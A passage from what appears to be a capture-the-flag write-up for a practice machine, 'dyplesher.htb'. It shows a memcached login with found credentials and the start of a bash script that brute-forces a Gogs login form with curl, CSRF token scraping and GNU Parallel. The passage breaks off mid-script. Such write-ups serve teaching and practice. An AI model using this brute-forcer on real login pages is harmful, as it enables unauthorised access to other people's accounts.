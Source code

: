 The credential (`felamos:zxcvbnm`) doesn't fit in any of the services other than `memcached`. What else do we have?

### Memcached

Let's see what we can find in `memcached`. For that, we need to use [`memcached-cli`](https://www.npmjs.com/package/memcached-cli) since it supports SASL authentication.

{% include image.html image_alt="cafbe32e.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/cafbe32e.png" %}

I got connected, now what?

### Gogs Authentication Brute-Force

From the site we know that there are three users.

{% include image.html image_alt="0ee8aa1b.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/0ee8aa1b.png" %}

And from the `memcached` repository we dumped earlier, we know that it came from `felamos`. It's obviously a private repository because we can't see it when we explore the respositories.

{% include image.html image_alt="f7ddb0ab.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/f7ddb0ab.png" %}

Armed with these insights, I wrote a simple shell brute-forcer script to see if I can obtain the password to access `felamos`'s account. The script is mainly driven by `curl` and coupled with GNU Parallel, we get a multi-threaded brute-forcer of sorts.

<div class="filename"><span>brute.sh</span></div>

```bash
#!/bin/bash

USER=$1
PASS=$2

function die() {
    killall perl 2>/dev/null
}

export -f die

function check() {

    local HOST=dyplesher.htb
    local PORT=3000
    local COOKIE=$(mktemp -u)
    local PROXY=127.0.0.1:8080
    local USER=$1
    local PASS=$2

    CSRF=$(curl -s \
                -c $COOKIE \
                http://$HOST:$PORT/user/login \
           | grep -E '_csrf' \
           | grep -Eo 'value=".*"' \
           | sed -r 's/value=//' \
           | tr -d '"')

    CSRF=$(urlencode $CSRF)

    CODE=$(curl -s \
                -b $COOKIE \
                -d "_csrf=$CSRF&user_name=$USER&password=$PASS" \
                -o /dev/null \
                -w "%{http_code}" \
```